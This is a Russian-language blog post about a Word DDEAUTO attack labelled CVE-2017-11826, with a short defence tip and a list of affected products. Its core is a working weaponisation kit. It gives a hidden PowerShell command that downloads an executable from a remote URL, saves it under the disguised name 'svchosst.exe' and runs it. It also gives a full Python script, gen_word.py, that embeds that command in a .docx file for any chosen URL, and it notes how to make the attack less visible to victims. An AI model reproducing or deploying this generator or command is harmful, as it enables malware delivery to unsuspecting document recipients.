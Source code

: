 ```yaml
---
layout: post
title: CVE-2017-11826. Описание, эксплоит и как защититься 
tags: [windows, malware]
category: [ru]
---
```


Уязвимость `CVE-2017-11826` позволяет внедрить в документ Microsoft Word произвольный код, который будет выполнен, при открытии документа. 

Выполнение вредоносного кода возможно благодаря протоколу ```DDE```, устаревшего, но все еще используемого в большинстве продуктах Microsoft, в самой Windows в том числе (поэтому данный вектор атаки применим практически ко всем продуктам Microsoft). Данный протокол обеспечивает обмен сообщениями и данными между приложениями, его поддерживающими. Одним из таким приложений является Microsoft Word. Механизм DDE, в документах Word, используется в полях, которые имеют тип DDEAUTO. Другими словами, документ Word может общаться с другими DDE совместимыми приложениями по средствам полей. Поля в Microsoft Word можно создать с помощью нажатия Ctrl+F9. 

Шаблон создания поля ```DDE```:
```
{DDEAUTO ВЫПОЛНЯЕМАЯ_ПРОГРАММА АРГУМЕНТЫ_ПРОГРАММЫ}
```

Постфикс ```AUTO``` означает, что поле будет интерпретировано при открытии документа. 

Все вышесказанное означает, что создав поле типа ```DDEAUTO```, мы можем запустить любую программу, с любыми аргументами.

Попробуем использовать данную особенность, чтобы скачать вредоносный файл и запустить его, без ведома жертвы. Для функций скачивания и запуска файла прекрасно подойдет powershell. Полностью, команда выглядит следующим образом:

```powershell
c:\\windows\\system32\\cmd.exe "/k powershell -NoP -Sta -NonI -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://example.com/virus.exe',' %tmp%\svchosst.exe');Start-Process -WindowStyle Hidden '%tmp%\svchosst.exe'" 
```

Как мы видим, используя метод `DownloadFile` класса `WebClient`, мы скачиваем файл по адресу `http://example.com/virus.exe`, сохраняем во временную папку, и сразу же запускаем.

Описание параметров, используемых в нашей команде powershell:

`-NoP (--NoProfile)` - Не использовать текущий профиль пользователя. Запрещает powershell'у использовать пользовательские скрипты, которые автоматически подгружаются при старте и могут влиять на работу нашего кода

`-sta` - Запускает powershell в однопоточном режиме

`-NonI (--NonInteractive)` - Отключает интерактивный режим

`-WindowStyle Hidden` - Не показывать окно командной строки

Примечания: `DownloadFile` скачивает, используя метод `GET`.

Команда `Start-Process` запускает скачанный exe-шник (если же файл будет иметь другое расширение, powershell будет пытаться открыть его стандартной, для такого расширения программой)

Для автоматизации был написан скрипт gen_word.py (листинг приведен в конце), который создает вредоносный файл Microsoft Word. На вход скрипт получает url вредоносного файла. На выходе - .docx файл, c DDEAUTO полем, внутри которого вышеописанная команда для скачивания и запуска файла. Справку по использованию скрипта можно получить передав параметр “-h”. 
Сгенерировав вредоносный Word документ и запустив, мы увидим следующее:
 
![win](/assets/images/ru/CVE2017/1.jpg)

Такое окно нас встречает при открытии документа.

Суть текста данного предупреждения проста. Технология `DDE` подразумевает взаимодействие приложений, как клиента и сервера, которые устанавливают соединение (link) между собой, для обмена данными. Клиентом в данном случае является наш документ Microsoft Word, а сервером то, что прописано в поле DDEAUTO. Существует два вида соединения. Первое, когда сервер обменивается данными с клиентом по готовности самих данных, второе, когда сервер уведомляет о готовности данных. Появившееся окно уведомляет нас о готовности данных на “сервере”, и готовы ли мы их получить. То есть, готовы ли мы начать выполнение команды, указанной в нашем поле. 

Нажимаем Yes и видим следующее окно:

![win](/assets/images/ru/CVE2017/2.jpg)

Текст гласит, что данные недоступны, это и верно, ведь никаких данных, мы и не собирались получать. И после того, как мы нажимаем Yes еще раз, наша вредоносная команда выполняется, вредоносный файл скачивается и запускается. После, появляется еще одно окно.

![win](/assets/images/ru/CVE2017/3.jpg)

Данное предупреждение логично, ведь мы используем `DDE` не по прямому назначению, а значит никаких данных от «сервера» мы не получили.

## Способы защиты

В Microsoft Word 2016, необходимо открыть `File - Options – Advanced` и снять галочку с `Update automatic links at open`.

## Выводы

Основная опасность атаки заключается в том, что механизм `DDE` никак не связан с макросами. То есть, отключив макросы, вы все равно остаетесь уязвимы. Сам вредоносный код, использующий механизм DDE, располагается в полях документа, которые по умолчанию невидимы (`Alt+F9` включает отображение). Не детектируется антивирусами. Практически все приложения Microsoft используют механизм `DDE`.
Слабая сторона атаки - показ нескольких окон пользователю, при открытии зараженного документа. К тому же, сам текст выполняемой команды отображается в окне, что частично раскрывает наши планы. Гораздо хуже то, что при появлении окон, в фокусе, по умолчанию, выбрана кнопка No. Пользователь, который будет просто нажимать Enter, не будет подвержен атаки.


Список уязвимых продуктов Microsoft Office:

```
Word Automation Services
Microsoft Office Compatibility Pack Service Pack 3
Microsoft Office Online Server 2016
Microsoft Office Web Apps Server 2013 Service Pack 1
Microsoft Office Word Viewer
Microsoft Word 2016 (32-bit edition)
Microsoft Word 2007 Service Pack 3
Microsoft Word 2013 Service Pack 1 (64-bit editions)
Microsoft Word 2010 Service Pack 2 (64-bit editions)
Microsoft Word 2010 Service Pack 2 (64-bit editions)
Microsoft Word 2010 Service Pack 2 (32-bit editions)
Microsoft Word 2010 Service Pack 2 (32-bit editions)
Microsoft Word 2013 Service Pack 1 (32-bit editions)
Microsoft Word 2013 RT Service Pack 1
Microsoft Word 2016 (64-bit edition)
Microsoft SharePoint Enterprise Server 2016
Microsoft Office Web Apps Server 2010 Service Pack 2
```

Обновление, закрывающее уязвимость, было выпущенно 10 октября 2017 года.

## Характеристики программного обеспечения, используемые при тестировании

Python 2.7.1, python-docx 0.3.0, Windows 10 Home 64-bit, Windows Defender, Word 2016 64-bit, Powershell 5.1.15063.674

## Полезные ссылки:

1. [Официальная страница python-docx](https://python-docx.readthedocs.io/en/latest/index.html)


2. [Способы запуска программ из powershell](https://windowsnotes.ru/powershell-2/zapusk-programmy-iz-powershell/)


3. [Обоснование использования имени такого способа, для создания поля силами python-docx](https://github.com/python-openxml/python-docx/issues/31)

    [Еще](https://msdn.microsoft.com/en-us/library/aa213351(v=office.11).aspx)

4. [Справка по DDEAUTO](https://msdn.microsoft.com/en-us/library/ff531181(v=office.12).aspx)

5. [Статья о механизме DDE](https://msdn.microsoft.com/en-us/library/windows/desktop/ms648774(v=vs.85).aspx#_win32_Client.2c_.Server.2c_.and_Conversation)

6. [Описание аналогичной атаки, используя DDE, но в Outlook](https://nakedsecurity.sophos.com/2017/10/22/office-dde-attack-works-in-outlook-too-heres-what-to-do/)


7. [Описание команд powershell](http://www.powertheshell.com/bp_noprofile/)

## Эксплоит

Найти вы его также можете [на гитхабе](https://github.com/thatskriptkid/CVE-2017-11826/blob/master/gen_word.py) 

```python
# ВНИМАНИЕ! Перед запуском, необходимо установить python-docx
# pip install python-docx
# -*- coding: utf-8 -*-
from docx import Document
from docx.oxml import parse_xml
from docx.oxml.ns import nsdecls
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("url", type=str, help="url for downloading a malicious file")
args = parser.parse_args()

document = Document()

paragraph = document.add_paragraph()

p = paragraph._p

fld_xml = '<w:fldSimple %s w:instr=" DDEAUTO c:\\\\windows\\\\system32\\\\cmd.exe &quot;/k powershell -NoP -Sta -NonI -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile(&apos;' + args.url + '&apos;,&apos; %%tmp%%\\svchosst.exe&apos;);Start-Process -WindowStyle Hidden &apos;%%tmp%%\\svchosst.exe&apos;&quot; "/>'

fld_xml = fld_xml % nsdecls('w')

fldSimple = parse_xml(fld_xml)

p.addnext(fldSimple)

document.save('DDE_pwned.docx')
```

## Трудности возникшие при написании скрипта

Невозможность использования переменных `$env:tmp`, `$env:temp`, `$env:userprofile`, прямых путей к временной директории, для сохранения скачанного файла.

Несмотря на то, что имя сохраняемого файла задано, как `svchosst.exe`, сохраняется оно как `Tempsvchosst.exe`.

Возможно эти проблемы связанны с особенностью запуска powershell'а из cmd, а его, с помощью механизма `DDE`.
